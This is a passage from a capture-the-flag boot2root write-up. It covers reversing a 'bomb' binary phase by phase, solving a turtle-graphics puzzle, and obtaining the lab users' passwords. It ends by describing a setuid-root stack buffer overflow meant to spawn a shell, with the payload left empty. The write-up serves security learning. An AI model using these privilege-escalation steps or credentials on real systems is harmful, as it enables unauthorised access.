    printf("%c",getme2());
    printf("%c",getme3());
    printf("%c",getme4());
    printf("%c",getme5());
    printf("%c",getme6());
    printf("%c",getme7());
    printf("%c",getme8());
    printf("%c",getme9());
    printf("%c",getme10());
    printf("%c",getme11());
    printf("%c",getme12());
    printf("\n");
    printf("Now SHA-256 it and submit");
}
/*
}
```

Nice, so the password is `Iheartpwnage`, let's get the `SHA-256` hash:
```bash
echo -n Iheartpwnage | sha256sum
```
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

We can now connect to the machine using `SSH` using the user `laurie`:
```bash
ssh laurie@boot2root.vm
```
```
laurie@BornToSecHackMe:~$
```

```bash
ls -l
```
```
total 27
-rwxr-x--- 1 laurie laurie 26943 Oct  8  2015 bomb
-rwxr-x--- 1 laurie laurie   158 Oct  8  2015 README
```

```bash
cat README
```
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

```bash
file bomb
```
```
bomb: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.0.0, not stripped
```

I downloaded the file using the previous method, to inspect it on my local machine.

### bomb
```bash
popd
pushd laurie/bomb
```

```bash
./bomb
```

```
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!

BOOM!!!
The bomb has blown up.
```

The program reads the standard input, and seems to expect specific answers. There seem to be 6 stages to solve and diffuse the bomb, according to the `README`.

I used `radare2` to disassemble the file and understand the checks performed on the input.

I created some scripts, ranging from `phase_1.sh` to `phase_7.sh` to define the input for each stage of the bomb.

When there are multiple valid inputs, we can use the hint to make our choice.

#### phase 1
```c
void phase_1(const char *input)

{
    bool not_equal;
    
    not_equal = strings_not_equal(input, "Public speaking is very easy.");
    if (not_equal)
        explode_bomb();
}

```
Expected input:
```
Public speaking is very easy.
```

#### phase 2
```c
void read_six_numbers(const char *input, int *dest)
{
    int n_conv;
    
    n_conv = sscanf(input, "%d %d %d %d %d %d", dest, dest + 1, dest + 2,
        dest + 3, dest + 4, dest + 5);
s
    if (n_conv < 6)
        explode_bomb();
}

void phase_2(const char *input)
{
    int         i;
    int         nums[6];
    
    read_six_numbers(input, nums);

    if (nums[0] != 1)
        explode_bomb();

    i = 1;
    do {
        if (nums[i] != (i + 1) * nums[i - 1])
            explode_bomb();
        i++;
    } while (i < 6);
}
```

Expected input:
```
1 2 6 24 120 720
```

#### phase 3
```c
void phase_3(const char *input)
{
    int     n_conv;
    char    expected_character;
    unsigned    number_a;
    char    character;
    int     number_b;
    
    n_conv = sscanf(input, "%d %c %d", &number_a, &character, &number_b);

    if (n_conv < 3) {
        explode_bomb();
    }

    switch(number_a) {
    case 0:
        expected_character = 'q';
        if (number_b != 777)
            explode_bomb();
        break;
    case 1:
        expected_character = 'b';
        if (number_b != 214)
            explode_bomb();
        break;
    case 2:
        expected_character = 'b';
        if (number_b != 755)
            explode_bomb();
        break;
    case 3:
        expected_character = 'k';
        if (number_b != 251)
            explode_bomb();
        break;
    case 4:
        expected_character = 'o';
        if (number_b != 160)
            explode_bomb();
        break;
    case 5:
        expected_character = 't';
        if (number_b != 458)
            explode_bomb();
        break;
    case 6:
        expected_character = 'v';
        if (number_b != 780)
            explode_bomb();
        break;
    case 7:
        expected_character = 'b';
        if (number_b != 524)
            explode_bomb();
        break;
    default:
        explode_bomb();
    }

    if (character != expected_character)
        explode_bomb();
}
```

One of the following combinations must be used to prevent the bomb from exploding:
| number_a | character | number_b |
|:--------:|:---------:|:--------:|
|     0    |     q     |    777   |
|     1    |     b     |    214   |
|     2    |     b     |    755   |
|     3    |     k     |    251   |
|     4    |     o     |    160   |
|     5    |     t     |    458   |
|     6    |     v     |    780   |
|     7    |     b     |    524   |

According to the hint, the input should contain the character `b`.

Expected input:
```
1 b 214
```

#### phase 4
```c
// This function gets a value in the fibonacci sequence, according to its position
int func4(int pos)
{
    int         prev;
    int         value;
    
    if (pos < 2)
        value = 1;
    else {
        prev = func4(pos + -1);
        value = func4(pos + -2) + prev;
    }

    return value;
}

void phase_4(const char *input)
{
    int n_conv;
    int position;
    
    n_conv = sscanf(input, "%d", &position);
    if (i == 1 && position > 0) {
        //  1  2  3  4  5  6  7  8  9
        //  1  2  3  5  8  13 21 34 55 ...
        if (func4(position) != 55)
            explode_bomb();
        return;
    }
    explode_bomb();
}
```

Expected input:
```
9
```

#### phase 5
```c
const char  *key = "isrveawhobpnutfg";

void phase_5(const char *input)
{
    int         i;
    const char  *plain_text;
    
    if (string_length(input) != 6)
        explode_bomb();

    i = 0;
    do {
        plain_text[i] = key[input[i] & 0xf];
        i = i + 1;
    } while (i < 6);

    if (strings_not_equal(&plain_text, "giants"))
        explode_bomb();
}
```

The expected input is the string `giants` encoded with the key `isrveawhobpnutfg`.
The key is 16 characters long and each input character's lower two-bytes determine the position of the decoded character in the key.

For example:
| Encoded | Lower two bytes | Decoded |
|:-------:|:---------------:|:-------:|
|    a    |       0x1       |    s    |
|    b    |       0x2       |    r    |
|    c    |       0x3       |    v    |
|    d    |       0x4       |    e    |
|    e    |       0x5       |    a    |
|    f    |       0x6       |    w    |
|    g    |       0x7       |    h    |
|    h    |       0x8       |    o    |
|    i    |       0x9       |    b    |
|    j    |       0xa       |    p    |
|    k    |       0xb       |    n    |
|    l    |       0xc       |    u    |
|    m    |       0xd       |    t    |
|    n    |       0xe       |    f    |
|    o    |       0xf       |    g    |
|    p    |       0x0       |    i    |

Expected input:
```
opekmq
```

#### phase 6
```c
typedef struct node
{
	int				content;
	struct node*	next;
} node;

node node1 = {0x0fd, 1};
node node2 = {0x2d5, 2};
node node3 = {0x12d, 3};
node node4 = {0x3e5, 4};
node node5 = {0x0d4, 5};
node node6 = {0x1b0, 6};

void phase_6(const char *input)
{
    node	*next;
    int		j;
    node	*selected;
    node	*current;
    int		i;
    node	*nodes[6];
    int		nums[6];

    read_six_numbers(input, nums);

	// No number > 6, no duplicates
    i = 0;
    do {
        j = i;
        if (nums[i] > 6)
            explode_bomb();

        while (j < 5)
            if (nums[i] == nums[++j + 1])
                explode_bomb();
        i++;
    } while (i < 6);

	// Select nodes based on index(1..6)
    i = 0;
    do {
        selected = &node1;
        j = 1;
        if (nums[i] > 1) {
            do {
                selected = selected->next;
            } while (j++ < nums[i]);
        }
        nodes[i] = selected;
        i++;
    } while (i < 6);

	// Relink nodes according to selection
    i = 1;
    current = nodes[0];
    do {
        next = nodes[i];
        current->next = next;
        i++;
        current = next;
    } while (i < 6);
    next->next = NULL;

	// Check that nodes contents are in descending order
    i = 0;
    do {
        if (nodes[0]->content < nodes[0]->next->content)
            explode_bomb();
        nodes[0] = nodes[0]->next;
        i++;
    } while (i < 5);
}
```

Expected input:
```
4 2 6 3 1 5
```

Using these inputs, we should be able to defuse the bomb:
```
./solve.sh | ./bomb
```
```
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You've defused the bomb!
```

#### secret stage

There is also a secret stage, but it is not part of the input described in the hint.

```c
static int  num_input_strings;

static char input_strings[7][50];

struct btree {
    int             content;
    struct btree    *left;
    struct btree    *right;
};

struct btree n1;

int fun7(const struct btree *tree, int num)
{
    int value;

    if (tree == NULL)
        value = -1;
    else if (num < tree->content)
        value = fun7(tree->left, num) * 2;
    else if (num == tree->content)
        value = 0;
    else
        value = fun7(tree->right, num) * 2 + 1;

    return value;
}

void secret_phase(void)
{
    unsigned    input;
    int         num;

    input = read_line();

    num = strtol(input, NULL, 10);

    if (num > 1001)
        explode_bomb();

    num = fun7(n1, num);
    if (num != 7)
        explode_bomb();

    printf("Wow! You've defused the secret stage!\n");

    phase_defused();
}

void    phase_defused()
{
    int         n_conv;
    unsigned    num;
    unsigned    str;

    if (num_input_strings == 6) {
        n_conv = sscanf(input_strings + 3, "%d %s", &num, &str);
        if (n_conv == 2) {
            if (strings_not_equal(&str, "austinpowers") == 0) {
                printf("Curses, you've found the secret phase!\n");
                printf("But finding it and solving it are quite different...\n");
                secret_phase();
            }
        }
        printf("Congratulations! You've defused the bomb!\n");
    }
}
```

To reach the secret phase the program expects us to enter a string with the contents `austinpowers` in the 4th phase, after the normal number.

Afterwards, a line is read from standard input, and the contents are converted to a number. The bomb explodes if the number exceeds 1001.

Then a function called `fun7` is called, which seems to search a value inside of a binary tree. If the value is found, it returns a value depending on it's path.

The function's result describes the path to the value in a binary format.
When a bit is on, the path goes to the right node, otherwise it goes to the left node.

I wrote a python script to visualize the binary tree stored in the binary's data starting at `n1`.

```python
./r2tree.py
```
```c
         ┌> 1
      ┌> 6
      |  └> 7
   ┌> 8
   |  |  ┌> 20
   |  └> 22
   |     └> 35
─> 36
   |     ┌> 40
   |  ┌> 45
   |  |  └> 47
   └> 50
      |  ┌> 99
      └> 107
         └> 1001
```

The expected path value is `7`. The number `7` can be represented like this: `0b111`.

This means the path should go right, right, right.

Going this path leads us to the number 1001.

Expected input:
```
1001
```

Using this input we can solve the secret stage:
```sh
BONUS=true ./solve.sh | bomb
```
```
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Phase 1 defused. How about the next one?
That's number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Curses, you've found the secret phase!
But finding it and solving it are quite different...
Wow! You've defused the secret stage!
Congratulations! You've defused the bomb!
```

Using the hint we can now construct thor's password:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

Using this password we can now switch users:
```bash
su thor
```
```
thor@BornToSecHackMe:~$
```

### turtle

```bash
cat README
```
```
Finish this challenge and use the result as password for 'zaz' user.
```

```bash
file turtle
```
```
turtle: ASCII text
```

```bash
head turtle
```
```
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
```

The challenge seems to be a reference to a Minecraft mod called ComputerCraft. In this mod there are programmable "turtles" that can move and interact with the world.

The `turtle` file seems to contain instructions that describe a path.

I wrote a script to parse the instructions and translate them into a more structured format.
```bash
./translate.sh < turtle > translated
```

From there, I wrote a simple html document containing a canvas and a script that parses the instructions and renders the resulting path to the canvas.

By running each instruction block, I got the following resulting images:






Looking at the sequence, we can read the word `SLASH`.

Using `slash` or `SLASH` as the password does not work. Looking closely at the end of the `turtle` file we can find the following hint:
```
Can you digest the message? :)
```

Let's try md5 to digest the message:
```bash
echo -n 'SLASH' | md5sum
```
```
646da671ca01bb5d84dbb5fb2238dc8e  -
```

```bash
su zaz
```
```
zaz@BornToSecHackMe:~$
```

Here, we can run a stack buffer overflow, because this file SEGVs when we send it more than 140 characters.

Because it's setuid bit is set to root, we will win if we can find a way to spawn a shell.

payload :
```

```
